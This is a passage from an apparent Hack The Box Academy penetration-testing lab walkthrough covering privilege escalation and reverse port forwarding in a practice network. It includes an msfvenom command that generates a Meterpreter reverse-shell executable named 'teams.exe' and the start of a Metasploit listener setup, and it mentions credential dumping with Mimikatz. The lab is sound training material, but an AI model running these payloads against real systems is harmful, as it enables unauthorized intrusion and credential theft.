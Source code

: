 Password last set            6/1/2022 11:32:05 AM
Password expires             Never
Password changeable          6/1/2022 11:32:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/21/2022 7:03:10 AM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         
The command completed successfully.
</code></pre>
<p>We could also escalate privileges on the DEV01 host using the <code>PrintNightmare</code> vulnerability. There are also other ways to retrieve the credentials, such as using Mimikatz. Play around with this machine and apply the various skills you learned in the <code>Penetration Tester Path</code> to perform these steps in as many ways as possible to practice and find what works best for you.</p>
<p>At this point, we don't have any additional findings to write down because all we did was abuse built-in functionality, which we could perform because of the file share issues noted previously. We could note down <code>PrintNightmare</code> as a high-risk finding if we can exploit it.</p>
<hr/>
<h2>Alternate Method - Reverse Port Forwarding</h2>
<p>There are many ways to attack this network and achieve the same results, so we will not cover them all here, but one worth mentioning is <a href="https://academy.hackthebox.com/module/158/section/1427">Remote/Reverse Port Forwarding with SSH</a>. Let's say we want to return a reverse shell from the <code>DEV01</code> box to our attack host. We can't do this directly since we're not in the same network, but we can leverage <code>dmz01</code> to perform reverse port forwarding and achieve our goal. We may want to get a Meterpreter shell on the target or a reverse shell directly for any number of reasons. We could have also performed all of these actions without ever getting a shell, as we could have used  <code>PrintSpoofer</code> to add a local admin or dump credentials from <code>DEV01</code> and then connect to the host in any number of ways from our attack host using Proxychains (pass-the-hash, RDP, WinRM, etc.). See how many ways you can achieve the same task of interacting with the <code>DEV01</code> host directly from your attack host. It's essential to be versatile, and this lab network is a great place to practice as many techniques as possible and hone our skills.</p>
<p>Let's walk through the reverse port forwarding method quickly. First off, we need to generate a payload using <code>msfvenom</code>. Note that here we'll specify the IP address of the <code>dmz01</code> pivot host in the <code>lhost</code> field and NOT our attack host IP as the target would not be able to connect back to us directly.</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 787 bytes
Final size of exe file: 7168 bytes
Saved as: teams.exe
</code></pre>
<p>Next, we need to set up a <code>multi/handler</code> and start a listener on a different port than the payload we generated will use.</p>
<pre><code class="language-shell-session">[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) &gt;&gt; use multi/handler
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set payload windows/x64/meterpreter/reverse_https
payload =&gt; windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set lhost 0.0.0.0
lhost =&gt; 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set lport 7000